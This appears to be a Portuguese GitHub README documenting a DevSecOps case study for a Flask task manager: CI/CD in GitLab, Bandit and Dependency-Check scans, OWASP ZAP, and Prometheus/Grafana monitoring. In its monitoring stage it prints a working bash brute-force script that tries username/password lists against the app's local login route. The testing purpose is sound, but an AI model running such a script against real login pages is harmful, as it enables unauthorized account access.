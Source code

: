 ## INTRODUÇÃO

Este estudo de caso se refere a implementação e segurança de um sistema de gerenciamento de tarefas pessoais, integrando processos de SDLC, DevOps e DevSecOps para garantir eficiência e segurança.
<hr>


### ETAPA 1: PLANEJAMENTO E DEFINIÇÃO DE REQUISITOS

1. Clonar o projeto e instalar das dependências a partir do requiriments.txt:

```
Flask==2.3.2
Flask-Bcrypt==1.0.1
Flask-Login==0.6.3
Flask-SQLAlchemy==3.0.5
Flask-WTF==1.1.1
WTForms==3.1.1
Jinja2==3.1.2
werkzeug==2.3.3
coverage
python-dotenv
prometheus-flask-exporter
```
<br />

2. Construir o diagrama para entender o domínio do problema:

![dfd](https://github.com/user-attachments/assets/6809cba3-bd94-4042-beb3-96beb5435c44)

<hr>

### ETAPA 2: DESENVOLVIMENTO DO SISTEMA

**Branches:**
- `master`: produção  
- `development`: desenvolvimento  
- `staging`: homologação

**Ferramentas Utilizadas:**
- Visual Studio Code
- GitLab
- Docker
- Python
- Pytest
- Unittest
- Zed Attack Proxy
- Bandit
- OWASP Dependency-Check
- OWASP ZAP
- Hydra
- Prometheus
- Grafana

1. Implementação do Dockerfile:

![dockerfile](https://github.com/user-attachments/assets/2c5f592a-185b-4f68-b372-33077d93eed0)


2. Aplicação executada na porta 5000:

   ![app](https://github.com/user-attachments/assets/815bb208-495e-4b0b-9931-5ea3d2c150e5)


<hr>

### ETAPA 3: IMPLEMENTAÇÃO DE UM PIPELINE CI/CD

1. Implementação do build e deploy na pipeline:

![gitlabci](https://github.com/user-attachments/assets/8d68bae7-73df-4b91-9e75-5c012a159177)


2. Pipeline em execução no GitLab:

![pipeline-initial](https://github.com/user-attachments/assets/de446dc6-f90a-4192-a62c-e58366d52a2c)


<hr>

### ETAPA 4: ANÁLISE ESTÁTICA DE CÓDIGO (SAST)

1. Implementação do Bandit na pipeline:
   
![bandit-artifect](https://github.com/user-attachments/assets/f6a7f30a-d20f-41cb-a541-b2c95c493182)


2. Artefato gerado mostrando dados sensíveis expostos na aplicação:

![artefact-zap-attack-tools](https://github.com/user-attachments/assets/92ed0c4f-d63e-4f4b-a281-3e8e05ded057)


3. Correção no código da falha capturada pelo Bandit:

![fixenv](https://github.com/user-attachments/assets/637a10d4-24c7-47de-8d1c-e91db4f988c0)


4. Implementação do OWASP Dependency Check na pipeline:
   
![owasp-dependecy-check](https://github.com/user-attachments/assets/03502964-4072-4e84-8c6b-45abab2dd431)


5. Artefato gerado com vulnerabilidades no código JavaScript:

![artifect-dependency-check](https://github.com/user-attachments/assets/c86fa7fb-8759-4973-af40-5e5877b0c09e)

<hr>

### ETAPA 5: ANÁLISE DINÂMICA DE SEGURANÇA (DAST)

1. Foi utilizada a aplicação Zed Attack Proxy (ZAP) para fazer uma varredura rápida na aplicação:

![zap-attack-tools](https://github.com/user-attachments/assets/96d41aad-6ea6-4780-b00f-a0060b2d3ac4)


2. Artefato gerado mostrando as vulnerabilidades e níveis de risco:
   
![artefact-zap-attack-tools](https://github.com/user-attachments/assets/0484436e-463d-4849-a0ef-25fd2e44ac00)

<hr>

### ETAPA 6: ENTREGA CONTÍNUA (CD)

1. Implementação da etapa de revisão de código na pipeline:

![review-pipeline](https://github.com/user-attachments/assets/935989ed-c41e-4851-8707-272e25f47020)


2. Implementação do OWASP ZAP para executar em toda a pipeline na homologação:


![owasp-zap](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/images/dast.png)
<hr>

### ETAPA 7: MONITORAMENTO

1. Implementação do Prometheus e Grafana na produção:
   
![grafana-prometheus](https://github.com/user-attachments/assets/b6f2439e-4504-4498-b854-dea651855d26)


2. Implementação do ataque de força bruta em bash:

```
#!/bin/bash

URL="http://localhost:5000/login"   
USERNAMES="usernames.txt"        
PASSWORDS="passwords.txt"       

if [[ ! -f "$USERNAMES" || ! -f "$PASSWORDS" ]]; then
  echo "Os arquivos usernames.txt ou passwords.txt não foram encontrados."
  exit 1
fi

while IFS= read -r username; do
  while IFS= read -r password; do
    echo "Tentando login com Username: $username e Password: $password"    
 
    response=$(curl -s -X POST -d "username=$username&password=$password" "$URL")    
   
    if [[ $response == *"Login successful"* ]]; then
      echo "SUCESSO! Username: $username | Password: $password"
      exit 0
    fi
  done < "$PASSWORDS"
done < "$USERNAMES"
```
<br />
   
3. Acompanhamento pelo Grafana com o ataque de bruta force em execução na rota de login:

![monitory](https://github.com/user-attachments/assets/eea67828-4ac5-4fc5-9e40-707d7ce3c3d8)

<hr>

### ETAPA 8: FEEDBACKS

1. A aplicação é antiga e precisou que algumas bibliotecas fossem atualizadas;
   
2. Foi corrigida uma das vulnerabilidades críticas capturada pelo bandit;
   
3. Testes funcionais e de integração foram implementados na etapa de homologação 
   
4. A pipeline foi testada de ponta a ponta, do desenvolvimento a homologação e produção:
   
![pipeline-finished](https://github.com/user-attachments/assets/e749eb7a-c885-4e95-b484-d77d6c24cd6d)



<br />
